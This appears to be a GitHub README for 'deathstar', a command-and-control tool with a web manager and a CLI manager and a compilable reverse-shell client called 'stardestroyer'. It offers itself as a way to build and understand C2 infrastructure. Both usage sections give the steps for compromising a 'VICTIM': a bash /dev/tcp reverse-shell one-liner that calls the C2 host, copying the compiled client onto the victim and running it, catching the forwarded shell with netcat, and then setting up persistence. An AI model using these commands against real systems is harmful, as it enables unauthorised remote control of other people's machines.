 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a terminal based C2 connection manager.

`stardestroyer.py` is one option of calling into the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/2276420d-6134-48a0-8e2e-5e6a0ddef95b)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar-web.py`
2. Open link in web browser
    - `firefox 127.0.0.1:5000`
3. Have Victim connect to C2
    - Linux / MacOS
      - This will drop the moment the C2 server 'drops'
      - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
    - Python reverse shell
      - This will continue to connect to the C2 server even after it 'drops'
      - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
      - `bash compiler.sh stardestroyer.py`
      - Copy `stardestoryer` to VICTIM
      - `chmod +x stardestroyer`
      - `./stardestroyer`
4. Start your listener 
    - `nc -nvlp 4444`
5. Forward the connection to your listener
    - On the webpage, type the IP of the listening device, and then click forward.
6. Catch the connection
    - Once you've caught the connection, begin setting up persistence.
7. Wash, rince, repeat.

# CLI C2 server
1. Start the server
    - `python3 deathstar-term.py`
2. Have Victim connect to C2
    - Linux / MacOS
      - This will drop the moment the C2 server 'drops'
      - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
    - Python reverse shell
      - This will continue to connect to the C2 server even after it 'drops'
      - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
      - `bash compiler.sh stardestroyer.py`
      - Copy `stardestoryer` to VICTIM
      - `chmod +x stardestroyer`
      - `./stardestroyer`
3. Start your listener 
    - `nc -nvlp 4444`
4. Forward the connection to your listener
    - On the CLI, list the connections.
      - Select `2)` to forward.
      - Specify the `ID` of the `VICTIM` you'd like to forward.
      - Then, type the IP of your `LISTENING` device.
5.Catch the connection
    - Once you've caught the connection, begin setting up persistence.
6. Wash, rince, repeat.

